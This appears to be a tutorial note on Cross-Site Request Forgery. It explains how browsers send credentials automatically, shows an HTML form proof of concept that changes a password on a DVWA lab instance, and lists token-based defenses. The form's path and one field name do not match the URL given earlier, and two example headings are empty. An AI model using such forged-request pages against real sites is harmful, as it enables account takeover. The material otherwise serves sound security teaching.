



# CSRF (Cross Site Request Forgery)

The victim's browser generates a request to a vulnerable web application.

This vulnerability is caused by the ability of browsers to automatically send authentication data in each request.

**authentication data** :
* session cookie
* HTTP authentication header
* IP address
* client SSL certificate
* Windows domain authentication

**Example of normal use**:

**Attack example**:

**Example**:

There is a (really lousy) platform that offers to change your password in a GET request, of the form :

`192.168.133.129/dvwa/vulnerabilities/csrf/?password_current=toto&password_new=titi&password_confirm=titi`

We can therefore create an HTML file as follows (locally possible but you need an internet connection for the request).


<html>
    <body>
        <form action="http://192.168.133.129/dvwa/vulnerabilites/csrf/?" method="GET">
        Current password: 
        <input type="password" AUTOCOMPLETE="off" name="password_current" value="titi"> 
        New password: 
        <input type="password" AUTOCOMPLETE="off" name="new_password" value="tutu"> 
        Confirm new password 
        <input type="password" AUTOCOMPLETE="off" name="password_confirm" value="tutu"> 
        <input type="submit" value="change" name="change"> 
        </form>
    </body>

</html>


The latter will make the request with the appropriate parameters and change the password from titi to tutu.

## Protect yourself:
* add a token, not sent automatically, to all sensitive requests => this makes it impossible for the attacker to submit a valid request
* tokens must be cryptographically secure
* store a single token in the session and add it to all forms and links
* do not let an attacker store attacks on the site
